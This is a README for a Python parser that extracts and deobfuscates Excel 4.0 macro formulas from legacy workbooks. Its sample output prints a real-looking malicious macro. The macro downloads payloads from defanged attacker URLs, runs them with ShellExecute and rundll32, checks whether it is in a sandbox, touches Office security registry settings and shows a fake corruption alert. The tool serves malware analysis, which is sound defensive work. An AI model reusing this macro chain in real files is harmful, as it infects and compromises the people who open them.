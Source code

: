 # xls_Macro4_parser
This file takes an Ms-Excel 97-2003 format CDF file and parses the workbook to find any formulas used and prints them if present. 
For somefiles, it can deobfuscate and prints the strings. 
Example: 
>>xls_Macro4_parser.py e0632a05a2951a71bc525eba22918cd76c8fcae7da778e7a873bf87c06428886 

Gives output as

 list of forumlas
>>>>Cell :: EN64870 :: Formula used in that cell
****************************************************************************************************
if decryption is possible : 
>>>>['', '', '="hxxps:// andikachandra[.]com/ wp-keys.php"', '', '=FREAD(R[43607]C[66],255)', '', '=CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open",R[-25569]C[-26],R[2577]C[-84],0,5)', '', '=IF(GET.WORKSPACE(14)<390,GOTO(R[47857]C[38]),)', '', '=IF(GET.WINDOW(7),GOTO(R[47177]C[-43]),)', '', '=IF(ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1))),,GOTO(R[46994]C[-62]))', '', '=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,R[24545]C[16],R[-4002]C[-57],0,0)', '', '', '', '', '=IF(GET.WINDOW(23)<3,GOTO(R[40195]C[-180]),)', '', '', '=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,R[-29033]C[-1],R[19440]C[46],0,0)', '', '', '="EXPORT HKCU\\Software\\Microsoft\\Office\\"', '', '="The workbook cannot be opened or repaired by Microsoft Excel because it\'s corrupt."', '', '=APP.MAXIMIZE()', '', '=ALERT(R[-10659]C[59])', '', '', '=IF(GET.WORKSPACE(42),,GOTO(R[20496]C[-97]))', '', '', '="C:\\Users\\Public\\D50djS.html"', '', '="C:\\Users\\Public\\u84Wh.reg"', '', '', '=IF(GET.WORKSPACE(19),,GOTO(R[13773]C[-115]))', '', '=FCLOSE(R[7278]C[-74])', '', '', '=IF(ISERROR(R[8283]C[-177]),GOTO(R[12577]C[-136]),)', '', '=IF(GET.WINDOW(20),,GOTO(R[11952]C[-81]))', '', '=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,R[-10355]C[91],R[42797]C[198],0,0)', '', '=WHILE(ISERROR(FILES(R[-12265]C[-17])))', '=WAIT(NOW()+"00:00:01")', '=NEXT()', '', '=IF(GET.WORKSPACE(31),GOTO(R[10604]C[-187]),)', '', '="C:\\Users\\Public\\ffiShHw4.html"', '', '=CLOSE(FALSE)', '', '', '', '=FOPEN(R[-16881]C[94])', '', '', '', '', '=FILES(R[-46081]C[146])', '', '', '="hxxp://gatemovie[.]online/wp-keys[.]php"', '', '', '=FILES(R[17889]C[9])', '', '=FILE.DELETE(R[-19682]C[-47])', '', '=IF(ISERROR(R[-26804]C[65]),,RUN(R[-40097]C[-82]))', '', '=R[1950]C[81]&",DllRegisterServer"', '', '=FPOS(R[-5789]C[-118],215)', '', '="C:\\Windows\\system32\\rundll32.exe"', '', '="hxxps://docs[.]microsoft[.]com/en-us/officeupdates/office-msi-non-security-updates"', '', '=IF(ISNUMBER(SEARCH("0001",R[-52119]C[-154])),GOTO(R[-2240]C[-102]),)', '', '=IF(GET.WORKSPACE(13)<770,GOTO(R[-3625]C[-27]),)', '', '="C:\\Windows\\system32\\reg.exe"', '', '=R[7343]C[-69]&GET.WORKSPACE(2)&"\\Excel\\Security "&R[3246]C[73]&" /y"', '', '', '', '=CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open",R[-18545]C[-137],R[-35241]C[-41],0,5)', '']

Formulas used in the excel along with their count
>>>>{'SET.VALUE': 10, 'FORMULA': 42, 'RUN': 30, 'GOTO': 30}

